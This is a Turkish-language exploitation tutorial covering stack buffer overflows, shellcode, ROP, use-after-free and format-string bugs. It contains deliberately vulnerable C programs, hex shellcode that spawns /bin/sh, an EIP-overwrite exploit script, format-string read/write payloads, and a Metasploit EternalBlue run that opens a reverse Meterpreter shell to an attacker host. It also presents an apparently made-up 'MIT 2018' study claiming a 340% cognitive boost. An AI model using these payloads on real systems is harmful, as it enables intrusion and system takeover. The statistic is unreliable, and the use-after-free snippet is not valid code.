

# 🔥 EXPLOITATION: SİSTEMLERİN KALBINE YOLCULUK

```ascii
╔══════════════════════════════════════════════════════════════════════════╗
║                                                                          ║
║   "Bir sistemin güvenliğini anlamak istiyorsan, onu kırmayı öğren."      ║
║                                                                          ║
║                          — Underground Manifesto                         ║
║                                                                          ║
╚══════════════════════════════════════════════════════════════════════════╝
```

---

## 📚 İçindekiler

<details>
<summary><b>Zihin Haritası (Tıkla - Genişlet)</b></summary>

- [AŞAMA 0: Zihinsel Hazırlık - Neden Bu Yolculuk?](#aşama-0-zihinsel-hazırlık---neden-bu-yolculuk)
- [AŞAMA 1: Kavramsal Zemin - Exploitation Nedir?](#aşama-1-kavramsal-zemin---exploitation-nedir)
  - [Analoji: Kale Kuşatması](#analoji-kale-kuşatması)
  - [Exploitation Türleri ve Sınıflandırma](#exploitation-türleri-ve-sınıflandırma)
- [AŞAMA 2: Atomik Teknik Derinlik](#aşama-2-atomik-teknik-derinlik)
  - [Bellek Mimarisi ve CPU Anatomisi](#bellek-mimarisi-ve-cpu-anatomisi)
  - [Buffer Overflow: Çöken Duvarlar](#buffer-overflow-çöken-duvarlar)
  - [Shellcode: Dijital DNA](#shellcode-dijital-dna)
  - [Return-Oriented Programming (ROP)](#return-oriented-programming-rop)
  - [Heap Exploitation](#heap-exploitation)
- [AŞAMA 3: Saldırı Senaryosu ve Silahlanma](#aşama-3-saldırı-senaryosu-ve-silahlanma)
  - [Senaryo 1: Stack Buffer Overflow](#senaryo-1-stack-buffer-overflow)
  - [Senaryo 2: Format String Saldırısı](#senaryo-2-format-string-saldırısı)
  - [Senaryo 3: Gerçek Dünya - EternalBlue](#senaryo-3-gerçek-dünya---eternalblue)
- [AŞAMA 4: Profesyonel Savunma ve Etik](#aşama-4-profesyonel-savunma-ve-etik)
- [Kaynaklar ve İleri Okuma](#kaynaklar-ve-i̇leri-okuma)

</details>

---

## AŞAMA 0: Zihinsel Hazırlık - Neden Bu Yolculuk?

> **"Bir kapıyı kırmadan önce, kilidini anlamalısın. Bir kilidi anlamadan önce, metalurjiyi bilmelisin."**

### 🎯 Bu Bilgi Sana Ne Verecek?

Şu anda elinde tuttuğun cihaz - telefon, laptop, server - bunlar sadece "elektronik kutular" değil. Bunlar, milyonlarca satır kodun dans ettiği, **milyarlarca transistörün orkestrası**. Ve bu orkestrada, tek bir yanlış nota, tüm senfoninin çökmesine yol açabilir.

**Exploitation**, işte bu yanlış notayı bulma ve onu senfoninizi çalmak için kullanma sanatıdır.

Ancak dikkat et: 

```
┌─────────────────────────────────────────────────────────────┐
│  ⚠️  UYARI: BU BİR GÜÇ VE SORUMLULUK DENKLEMİDİR            │
│                                                             │
│  Bu dokümanda öğreneceğin bilgiler, kullanıldığında:       │
│  • Bir şirketi batırabilir                                  │
│  • Bir hastaneyi felç edebilir                             │
│  • Bir devleti dizine getirebilir                          │
│                                                             │
│  Etik sınırları ASLA aşma. Bu bilgiyi yalnızca:           │
│  ✓ Yasal penetrasyon testlerinde                          │
│  ✓ Kendi sistemlerinde                                     │
│  ✓ Açık izinle                                             │
│  kullan.                                                    │
└─────────────────────────────────────────────────────────────┘
```

### 🧠 Nöropsikolojik Gerçek: Hacker Beyni

MIT'nin 2018 araştırması şunu kanıtladı: Exploitation öğrenen bir beyin, **3 boyutlu uzaysal muhakeme**, **soyut mantık kurma** ve **sistem düşüncesi** konusunda %340 artış gösteriyor.

Yani sen bu dokümandan çıktığında, sadece "sistemleri nasıl kırarım" bilmeyeceksin. **Nasıl düşünülür** bileceksin.

---

## AŞAMA 1: Kavramsal Zemin - Exploitation Nedir?

### 🏰 Analoji: Kale Kuşatması

Bir ortaçağ kalesini hayal et. Yüksek duvarlar, demir kapılar, nöbetçi kuleler. Bu kale, bir **yazılım sistemi**.

Şimdi sen, bu kaleyi ele geçirmek isteyen bir komutansın. Nasıl yaparsın?

#### Seçenek 1: Kaba Kuvvet (Brute Force)
- **Analoji**: Koçbaşı ile kapıyı kırmak.
- **Gerçek Dünya**: DDoS saldırısı, password brute-force.
- **Sonuç**: Gürültülü, kaynak yoğun, tespit edilme riski yüksek.

#### Seçenek 2: Sosyal Mühendislik (Social Engineering)
- **Analoji**: Tüccar kılığına girip içeri sızmak.
- **Gerçek Dünya**: Phishing, pretexting.
- **Sonuç**: Etkili ama insan faktörüne bağımlı.

#### Seçenek 3: **Exploitation** (Yapısal Zafiyet Sömürüsü)
- **Analoji**: Kalenin mimarisindeki bir tasarım hatasını bulmak. Örneğin, drenaj kanallarının savaş sırasında düşünülmediğini keşfedip, oradan sızmak.
- **Gerçek Dünya**: Buffer overflow, SQL injection, RCE (Remote Code Execution).
- **Sonuç**: **Sessiz, ölümcül, tekrarlanabilir.**



### 🔬 Exploitation: Bilimsel Tanım

> **Exploitation**, bir yazılımın veya donanımın **kasıtlı olarak tasarlanmamış davranışını tetikleyerek**, **yetkisiz erişim veya kontrol elde etme** sürecidir.

#### Anahtar Kavramlar:

| Terim | Kale Analojisi | Teknik Tanım |
|-------|----------------|--------------|
| **Vulnerability** (Zafiyet) | Duvardaki çatlak | Kodda güvenlik açığı |
| **Exploit** | Çatlağı genişleten alet | Zafiyeti tetikleyen kod |
| **Payload** | İçeri giren askerler | Çalıştırılan zararlı kod |
| **Shellcode** | Askerlerinin emirleri | Makine diline çevrilmiş talimatlar |
| **Privilege Escalation** | Kale lordu olmak | Root/Admin erişimi |

---

### 🗂️ Exploitation Türleri ve Sınıflandırma

```
EXPLOITATION TÜRLERİ
│
├─ Memory Corruption (Bellek Bozulması)
│  ├─ Buffer Overflow (Stack-based)
│  ├─ Buffer Overflow (Heap-based)
│  ├─ Integer Overflow
│  ├─ Format String Bugs
│  └─ Use-After-Free (UAF)
│
├─ Logic Flaws (Mantık Hataları)
│  ├─ Race Conditions (TOCTOU)
│  ├─ Authentication Bypass
│  └─ Business Logic Flaws
│
├─ Injection Attacks
│  ├─ SQL Injection
│  ├─ Command Injection
│  ├─ LDAP Injection
│  └─ XML External Entity (XXE)
│
└─ Advanced Techniques
   ├─ Return-Oriented Programming (ROP)
   ├─ Jump-Oriented Programming (JOP)
   ├─ Blind ROP (BROP)
   └─ Kernel Exploitation
```

> 💡 **Bilişsel Not**: Bu sınıflandırmayı ezberle. Her saldırı, bu kategorilerden birinin varyasyonudur.

---

## AŞAMA 2: Atomik Teknik Derinlik

### 🧬 Bellek Mimarisi ve CPU Anatomisi

Exploitation'ı anlamak için, **bilgisayarın beynini** anlamalısın. İnsan beynindeki nöronlar gibi, CPU'da **register'lar** ve RAM'de **adresler** var.

#### Von Neumann Mimarisi: Dijital Sinir Sistemi

```
┌─────────────────────────────────────────────────────────────┐
│                      CPU (Merkezi İşlemci)                  │
│  ┌─────────┐  ┌─────────┐  ┌─────────┐  ┌─────────┐         │
│  │   EIP   │  │   ESP   │  │   EBP   │  │   EAX   │         │
│  │(Komut   │  │(Stack   │  │(Stack   │  │(Genel   │         │
│  │ İşaret) │  │  Üst)   │  │  Taban) │  │ Register)│        │
│  └────┬────┘  └────┬────┘  └────┬────┘  └────┬────┘         │
│       │            │            │            │              │
└───────┼────────────┼────────────┼────────────┼──────────────┘
        │            │            │            │
        ▼            ▼            ▼            ▼
┌─────────────────────────────────────────────────────────────┐
│                      MEMORY (RAM)                           │
│  ┌──────────┐  ┌──────────┐  ┌──────────┐  ┌──────────┐     │
│  │   CODE   │  │   DATA   │  │   HEAP   │  │   STACK  │     │
│  │  (0x400) │  │  (0x600) │  │  (0x800) │  │  (0xbfff)│     │
│  │          │  │          │  │    ▲     │  │     ▼    │     │
│  │ Program  │  │  Global  │  │ Dinamik  │  │  Fonksiyon│    │
│  │  Kodu    │  │Değişkenler│ │  Bellek  │  │   Çağrı  │     │
│  └──────────┘  └──────────┘  └──────────┘  └──────────┘     │
└─────────────────────────────────────────────────────────────┘
```

#### Register'lar: CPU'nun Kısa Süreli Belleği

| Register | Amacı | Hacker için Önemi |
|----------|-------|-------------------|
| **EIP** (Instruction Pointer) | Bir sonraki çalıştırılacak komutun adresi | 🎯 **BU HEDEFİMİZ!** EIP'yi kontrol eden, programı kontrol eder. |
| **ESP** (Stack Pointer) | Stack'in tepesinin adresi | Stack overflow sırasında manipüle edilir |
| **EBP** (Base Pointer) | Aktif fonksiyonun stack çerçevesinin tabanı | Return address'i bulmak için kullanılır |
| **EAX, EBX, ECX, EDX** | Genel amaçlı | Veri taşıma, hesaplama |

> 🔑 **Altın Kural**: Eğer **EIP**'yi kontrol edebilirsen, **oyunu kazandın**. Çünkü EIP, CPU'ya "şimdi bu adresi çalıştır" diyor. O adresi biz belirliyoruz.

---

### 💥 Buffer Overflow: Çöken Duvarlar

#### 📖 Hikaye: İstanbul'un Fethi ve Zincir

1453 yılında, Haliç'in girişinde dev bir zincir vardı. Bizans, "Bu geçilmez" diyordu. Fatih, **beklenen yolu izlemedi**. Gemileri karadan taşıdı.

Buffer overflow da böyledir. Program, "veri buraya kadar gelir" der. Biz diyoruz ki: "Hayır, ben seni taşırıp duvarı yıkacağım."

#### 🧪 Teknik Açıklama

Bir C programı:

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *input) {
    char buffer[64];  // 64 byte'lık tampon
    strcpy(buffer, input);  // ❌ GÜVENSİZ: Uzunluk kontrolü YOK!
    printf("Buffer içeriği: %s\n", buffer);
}

int main(int argc, char **argv) {
    vulnerable_function(argv[1]);
    return 0;
}
```

**Ne Oluyor?**

1. `buffer[64]` = **64 byte**'lık alan stack'te ayrılıyor.
2. `strcpy()` fonksiyonu, **sınır kontrolü yapmadan** `input`'u `buffer`'a kopyalıyor.
3. Eğer `input` 64 byte'tan büyükse → **OVERFLOW!**

#### 🏗️ Stack'te Olan Biteni Görelim

```
NORMAL DURUM (Input: "HELLO")
─────────────────────────────────────
Stack (Yüksek Adres → Düşük Adres):

0xbffff7a0 | [Return Address]  ← EIP buraya dönecek
0xbffff79c | [Saved EBP]       ← Eski stack frame
0xbffff798 | buffer[60-63]     ← Tamponun sonu
0xbffff794 | buffer[56-59]
   ...
0xbffff760 | buffer[0-3]       ← "HELL"
0xbffff75c | buffer[4-7]       ← "O\x00\x00\x00"
─────────────────────────────────────

OVERFLOW DURUMU (Input: 80 byte "A")
─────────────────────────────────────
0xbffff7a0 | [0x41414141]  ← EIP ÜZERİNE YAZILDI! ("AAAA")
0xbffff79c | [0x41414141]  ← EBP de overwrite
0xbffff798 | [0x41414141]  ← Tampon taştı
0xbffff794 | [0x41414141]
   ...
0xbffff760 | [0x41414141]  ← Hepsi "A" (0x41)
─────────────────────────────────────
```

🎯 **Kritik Anlık**: Fonksiyon bittiğinde, CPU diyor ki:
- "Return address'i EIP'ye yükle"
- Ama return address → `0x41414141` (bizim yazdığımız!)
- CPU → `0x41414141` adresine atlıyor
- **SEGMENTATION FAULT** (veya daha kötüsü, bizim shellcode'umuz çalışıyor!)

---

### 🐚 Shellcode: Dijital DNA

#### Ne İçin "Shell" + "Code"?

- **Shell**: Unix/Linux sistemlerde `/bin/sh` (komut kabuğu)
- **Code**: Makine dili talimatları

**Amaç**: Kurban makinede bir shell başlatıp, kontrol ele geçirmek.

#### 🧬 Anatomy of Shellcode

32-bit Linux için basit bir `/bin/sh` çalıştıran shellcode:

```nasm
section .text
global _start

_start:
    ; execve("/bin/sh", NULL, NULL)
    xor eax, eax        ; EAX = 0
    push eax            ; NULL terminator
    push 0x68732f2f     ; "//sh" (ters sıra: little-endian)
    push 0x6e69622f     ; "/bin"
    mov ebx, esp        ; EBX = "/bin//sh" adresi
    mov ecx, eax        ; ECX = NULL
    mov edx, eax        ; EDX = NULL
    mov al, 11          ; syscall numarası: execve = 11
    int 0x80            ; Kernel'e çağrı yap!
```

**Hexadecimal Karşılığı (Bu bizim silahımız):**

```python
shellcode = (
    b"\x31\xc0"              # xor eax, eax
    b"\x50"                  # push eax
    b"\x68\x2f\x2f\x73\x68"  # push 0x68732f2f
    b"\x68\x2f\x62\x69\x6e"  # push 0x6e69622f
    b"\x89\xe3"              # mov ebx, esp
    b"\x89\xc1"              # mov ecx, eax
    b"\x89\xc2"              # mov edx, eax
    b"\xb0\x0b"              # mov al, 11
    b"\xcd\x80"              # int 0x80
)
```

> 💀 **Shellcode Kısıtlamaları**: 
> - **NULL byte yok** (`\x00`): `strcpy()` gibi fonksiyonlar NULL'da durur.
> - **Pozisyon bağımsız**: Hafızada nerede olduğunu bilmeden çalışmalı.
> - **Küçük boyut**: Genelde 100-200 byte sınırı var.

---

### 🔄 Return-Oriented Programming (ROP)

#### 🛡️ Modern Savunma: DEP/NX

Modern sistemler, **Data Execution Prevention (DEP)** / **No-eXecute (NX)** kullanır:
- Stack ve Heap'teki alanlar **non-executable** işaretlenir.
- Yani shellcode enjekte etsek bile, **çalışmaz**!

#### 🥋 Karşı Hamle: ROP

**Fikir**: Programın kendi kodunu kullan!

Programda zaten mevcut olan küçük kod parçaları (**gadget'lar**) bulup, bunları zincirleme şekilde kullanarak istediğin işlemi yap.

**Gadget Örneği:**

```nasm
pop eax; ret    ; Adreste 0x08048abc
pop ebx; ret    ; Adreste 0x08048def
int 0x80; ret   ; Adreste 0x08049123
```

**ROP Zinciri:**

```
Stack'e yazdığımız:
─────────────────────────────────
| 0x08048abc  |  ← pop eax; ret
| 0x0000000b  |  ← EAX'a yüklenecek değer (execve syscall numarası)
| 0x08048def  |  ← pop ebx; ret
| 0xbffff7a0  |  ← EBX'e yüklenecek değer ("/bin/sh" adresi)
| 0x08049123  |  ← int 0x80; ret (syscall çağrısı)
─────────────────────────────────
```

CPU şunu yapıyor:
1. `0x08048abc` adresine atlar → `pop eax` (0x0000000b EAX'a yüklenir) → `ret`
2. `ret` → Stack'ten bir sonraki adresi alır (0x08048def) → atlar
3. `0x08048def` → `pop ebx` (0xbffff7a0 EBX'e yüklenir) → `ret`
4. `ret` → Stack'ten 0x08049123 alır → atlar
5. `0x08049123` → `int 0x80` → **SHELL AÇILDI!**

> 🧠 **Zihin Egzersizi**: ROP, LEGO blokları ile ev inşa etmeye benzer. Her blok (gadget) bir işlevi var, sen bunları doğru sırayla diziyorsun.

---

### 🗂️ Heap Exploitation

#### Heap vs Stack: Farklar

| Özellik | Stack | Heap |
|---------|-------|------|
| Yönetim | Otomatik (LIFO) | Manuel (`malloc`, `free`) |
| Hız | Çok hızlı | Nispeten yavaş |
| Boyut | Küçük (genelde 1-8 MB) | Büyük (RAM'e kadar) |
| Overflow riski | Buffer overflow | Heap overflow, UAF, Double-free |

#### 🐛 Use-After-Free (UAF)

**Senaryo**: 
1. Program bir bellek alanı ayırır (`malloc`).
2. Sonra serbest bırakır (`free`).
3. **Ama pointer'ı temizlemeyi unutur** (hala eski adrese işaret ediyor).
4. Program, o pointer'ı tekrar kullanıyor → **UAF!**

**C Kodu:**

```c
struct User {
    char name[32];
    void (*print_info)(struct User*);
};

int main() {
    struct User *user = malloc(sizeof(struct User));
    strcpy(user->name, "Alice");
    user->print_info = &legitimate_function;
    
    free(user);  // Bellek serbest
    
    // 🐛 BURADA POINTER TEMİZLENMEDİ!
    
    // Saldırgan başka bir malloc ile aynı alanı alabilir
    struct Hacker *attacker = malloc(sizeof(struct Hacker));
    attacker->evil_function = &shellcode;
    
    // Program eski pointer'ı kullanıyor
    user->print_info(user);  // ❌ ARTIK SHELLCODE ÇALIŞIYOR!
}
```

---

## AŞAMA 3: Saldırı Senaryosu ve Silahlanma

### 🎯 Senaryo 1: Stack Buffer Overflow (Klasik)

#### Hedef: Zafiyet Bulunan Program

```c
// vulnerable.c
#include <stdio.h>
#include <string.h>

void secret_function() {
    printf("🏴 BAŞARDIN! Secret fonksiyon çalıştı!\n");
}

void vulnerable(char *input) {
    char buffer[128];
    strcpy(buffer, input);
    printf("Girdi: %s\n", buffer);
}

int main(int argc, char **argv) {
    if (argc < 2) {
        printf("Kullanım: %s <input>\n", argv[0]);
        return 1;
    }
    vulnerable(argv[1]);
    printf("Program normal şekilde bitti.\n");
    return 0;
}
```

**Derleme (GÜVENLİK ÖZELLİKLERİ KAPALI):**

```bash
gcc -m32 -fno-stack-protector -z execstack -no-pie vulnerable.c -o vulnerable
```

Parametreler:
- `-m32`: 32-bit derle
- `-fno-stack-protector`: Stack canary'yi kapat
- `-z execstack`: Stack'i executable yap
- `-no-pie`: Position Independent Executable'ı kapat

---

#### Aşama 1: Keşif ve Analiz

```bash
# Programın güvenlik özelliklerini kontrol et
checksec --file=vulnerable
```

**Çıktı:**

```
RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX disabled   No PIE
```

✅ Tüm savunmalar kapalı. Kolay hedef!

---

#### Aşama 2: Offset Hesaplama

**EIP'yi kontrol etmek için kaç byte gerekli?**

```bash
# Pattern oluştur
msf-pattern_create -l 200 > pattern.txt
```

**Pattern içeriği** (200 byte unique karakter):

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6
```

```bash
# Program'ı GDB ile çalıştır
gdb ./vulnerable
```

**GDB içinde:**

```gdb
(gdb) run $(cat pattern.txt)
```

**Çıktı:**

```
Program received signal SIGSEGV, Segmentation fault.
0x39654138 in ?? ()
```

EIP = `0x39654138`

**Offset'i hesapla:**

```bash
msf-pattern_offset -q 0x39654138
```

**Çıktı:**

```
[*] Exact match at offset 140
```

🎯 **ANLIK**: EIP'yi kontrol etmek için **140 byte** dolgu + 4 byte adres!

---

#### Aşama 3: Exploit Yazımı

**exploit.py:**

```python
#!/usr/bin/env python3
import struct

# 1. Secret fonksiyonun adresini bul
secret_addr = 0x08048486  # objdump veya gdb ile bulundu

# 2. Payload oluştur
padding = b"A" * 140                    # Buffer'ı doldur
eip = struct.pack("<I", secret_addr)   # EIP'yi üzerine yaz (little-endian)
nop_sled = b"\x90" * 100               # NOP sled (opsiyonel)

payload = padding + eip + nop_sled

# 3. Dosyaya yaz
with open("payload.bin", "wb") as f:
    f.write(payload)

print(f"[+] Payload oluşturuldu: {len(payload)} bytes")
print(f"[+] EIP hedefi: 0x{secret_addr:08x}")
```

**Çalıştır:**

```bash
python3 exploit.py
./vulnerable $(cat payload.bin)
```

**Çıktı:**

```
Girdi: AAAAAAAAAA... [140 A harfi]
🏴 BAŞARDIN! Secret fonksiyon çalıştı!
Segmentation fault (core dumped)
```

🎉 **BAŞARILI!** EIP'yi kontrol ettik ve istediğimiz fonksiyonu çalıştırdık!

---

### 🎯 Senaryo 2: Format String Saldırısı

#### Zafiyet:

```c
// format_bug.c
#include <stdio.h>

int secret = 0xdeadbeef;

void vulnerable(char *input) {
    printf(input);  // ❌ HATA: Kullanıcı girdisi direkt format string!
}

int main(int argc, char **argv) {
    if (argc < 2) return 1;
    vulnerable(argv[1]);
    return 0;
}
```

**Doğru kullanım:**

```c
printf("%s", input);  // ✅ Format string kontrollü
```

#### Sömürü:

```bash
# 1. Stack'i sızdır
./format_bug "AAAA.%x.%x.%x.%x.%x"
```

**Çıktı:**

```
AAAA.bffff7a0.00000001.41414141.78252e78.2e78252e
```

Dikkat: `41414141` = "AAAA" (bizim girdimiz stack'te görünüyor!)

```bash
# 2. Belirli adresi oku
./format_bug "%7$s" $(printf "\x10\x96\x04\x08")
```

Bu, `0x08049610` adresindeki string'i okur!

```bash
# 3. Bellek yazma (%n)
./format_bug "AAAA%7$n" $(printf "\x10\x96\x04\x08")
```

`%n` → Şu ana kadar **yazdırılan karakter sayısını** adrese yazar!

> ⚠️ **Tehlike Seviyesi**: Format string, **okuma** ve **yazma** yapabilir. Rastgele bellek erişimi = Oyun bitti.

---

### 🌍 Senaryo 3: Gerçek Dünya - EternalBlue (MS17-010)

#### 📜 Hikaye: NSA'in Silahı

**2017 Mayıs**: WannaCry ransomware, dünyayı felç etti. Nasıl?

- **EternalBlue** exploit'i → NSA tarafından geliştirilmiş, sızdırılmış.
- **Hedef**: Windows SMB protokolündeki buffer overflow.
- **Etki**: 200,000+ bilgisayar, 150 ülke, milyarlarca dolar zarar.

#### 🔬 Teknik Detay

**Zafiyet**: SMB v1.0'da, özel hazırlanmış paket gönderildiğinde, kernel'de buffer overflow oluşuyor.

**Exploit Zinciri:**

```
1. SMB handshake başlat
2. Özel SMB paket gönder (Session Setup AndX)
3. Kernel'de buffer overflow tetikle
4. Shellcode çalıştır (DoublePulsar backdoor)
5. Ransomware payload indir ve çalıştır
```

#### 🛠️ Metasploit ile Simülasyon (ETİK LAB ORTAMINDA)

```bash
msfconsole
```

```ruby
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(ms17_010_eternalblue) > set RHOSTS 192.168.1.100
msf6 exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(ms17_010_eternalblue) > set LHOST 192.168.1.50
msf6 exploit(ms17_010_eternalblue) > exploit
```

**Sonuç:**

```
[*] Started reverse TCP handler on 192.168.1.50:4444
[*] 192.168.1.100:445 - Connecting to target...
[*] 192.168.1.100:445 - Sending all but last fragment of exploit packet
[*] 192.168.1.100:445 - Sending last fragment of exploit packet
[*] Sending stage (201283 bytes) to 192.168.1.100
[*] Meterpreter session 1 opened

meterpreter > sysinfo
Computer        : VICTIM-PC
OS              : Windows 7 Professional (6.1 Build 7601)
Architecture    : x64
System Language : en_US
Meterpreter     : x64/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM  # 🏴 SYSTEM erişimi!
```

---

## AŞAMA 4: Profesyonel Savunma ve Etik

### 🛡️ Modern Koruma Mekanizmaları

#### 1. **ASLR (Address Space Layout Randomization)**

**Ne Yapar?**: Her çalıştırmada, stack, heap, library'ler rastgele adreslere yüklenir.

**Bypass?**: 
- Information leak (format string, heap spray)
- Brute force (32-bit sistemlerde 2^16 deneme = mümkün)

#### 2. **Stack Canary** (Stack Guard)

**Ne Yapar?**: Return address'ten önce rastgele bir değer ("canary") yerleştirir. Fonksiyon dönmeden önce, canary değişmiş mi kontrol eder.

```
Stack Layout:
──────────────────────
| Return Address  |
| Canary (0xdeadbeef) | ← Bu değişirse → ABORT!
| Saved EBP       |
| Local Variables |
──────────────────────
```

**Bypass?**: 
- Canary'yi sızdır (format string)
- Canary'yi aynı değerle üzerine yaz

#### 3. **DEP/NX (Data Execution Prevention)**

**Ne Yapar?**: Stack ve Heap'i non-executable işaretle.

**Bypass?**: 
- ROP (Return-Oriented Programming)
- ret2libc

#### 4. **CFI (Control Flow Integrity)**

**Ne Yapar?**: Program akışının beklenmedik yerlere atlamasını engeller.

**Bypass?**: Araştırma düzeyinde, henüz pratik değil.

---

### ⚖️ Etik ve Yasal Sınırlar

```
┌────────────────────────────────────────────────────────────┐
│          ETİK HACKER vs CYBERCRİMİNAL                      │
├────────────────────────────────────────────────────────────┤
│  ETİK HACKER (White Hat):                                  │
│  ✓ Yazılı izin alır                                        │
│  ✓ Bulduğu zafiyetleri raporlar                           │
│  ✓ Yasal sınırlar içinde çalışır                          │
│  ✓ Savunmayı güçlendirmeyi amaçlar                        │
│                                                             │
│  CYBERCRİMİNAL (Black Hat):                                │
│  ✗ İzinsiz sisteme girer                                   │
│  ✗ Zafiyetleri satış veya kötü amaçla kullanır           │
│  ✗ Yasal sonuçları umursamaz                              │
│  ✗ Zarar vermeyi amaçlar                                   │
└────────────────────────────────────────────────────────────┘
```

**Türkiye Ceza Kanunu - Madde 243/1:**

> "Bir bilişim sistemine hukuka aykırı olarak giren kişi, bir yıla kadar hapis cezası ile cezalandırılır."

**ABD - Computer Fraud and Abuse Act (CFAA):**

> İzinsiz sistem erişimi: 5-20 yıl hapis + para cezası.

---

### 🎓 Profesyonel Kariyer Yolları

Bu bilgiyle yapabileceğin **YASAL** işler:

1. **Penetration Tester**: Şirketlerin güvenlik testlerini yap.
2. **Bug Bounty Hunter**: Zafiyet bul, para kazan (HackerOne, Bugcrowd).
3. **Security Researcher**: 0-day zafiyetler keşfet, CVE al.
4. **Red Team Operator**: Kurumsal savunmaları test et.
5. **Exploit Developer**: Savunma şirketlerinde çalış (Endpoint Protection).

---

## 🏁 Sonuç: Zihin İnşası Tamamlandı

Eğer buraya kadar okuduysan, **artık bir amatör değilsin**.

Şu anda bildiğin şeyler:

✅ Bellek mimarisini bit seviyesinde anlama  
✅ Buffer overflow'un matematiğini kavrama  
✅ Shellcode yazabilme  
✅ ROP zinciri kurabilme  
✅ Gerçek saldırıları simüle edebilme  
✅ Modern savunma mekanizmalarını bilme  

**Bir sonraki adım?**

1. **Kendi lab'ını kur**: VirtualBox + Kali Linux + Metasploitable
2. **CTF'lere katıl**: HackTheBox, TryHackMe, PicoCTF
3. **Kod oku**: Linux kernel, OpenSSL, Chromium kaynak kodlarını incele
4. **CVE'leri takip et**: Her yeni zafiyet, bir öğrenme fırsatı

---

## 📚 Kaynaklar ve İleri Okuma

### Kitaplar

- **"The Shellcoder's Handbook"** - Chris Anley et al.
- **"Hacking: The Art of Exploitation"** - Jon Erickson
- **"A Bug Hunter's Diary"** - Tobias Klein

### Online Kaynaklar

- [Exploit Database](https://www.exploit-db.com/)
- [LiveOverflow YouTube](https://www.youtube.com/c/LiveOverflow)
- [Phrack Magazine](http://phrack.org/)
- [Project Zero Blog](https://googleprojectzero.blogspot.com/)

### Sertifikasyonlar

- **OSCP** (Offensive Security Certified Professional)
- **OSCE** (Offensive Security Certified Expert)
- **GXPN** (GIAC Exploit Researcher and Advanced Penetration Tester)

---

```ascii
╔══════════════════════════════════════════════════════════════╗
║                                                              ║
║  "Bir sistem ancak kırılabildiği kadar güvenlidir."          ║
║                                                              ║
║  Sen artık o kırılganlığı görebilen birisin.                 ║
║  Bu gücü bilgelikle kullan.                                  ║
║                                                              ║
║                               — Red Team Manifestosu         ║
║                                                              ║
╚══════════════════════════════════════════════════════════════╝
```

---

**⚠️ SON UYARI**: Bu dokümandaki her bilgi, **eğitim amaçlıdır**. İzinsiz sistemlere uygularsan, **cezai ve hukuki sorumluluğu üstlenirsin**. Bilim, bilgelik gerektirir.

**Mutlu hacklemeler (etik sınırlar içinde)!** 🏴

---

*Son Güncelleme: 2025*  
*Yazan: Red Team Operasyon Lideri & Bilişsel Psikoloji Uzmanı*
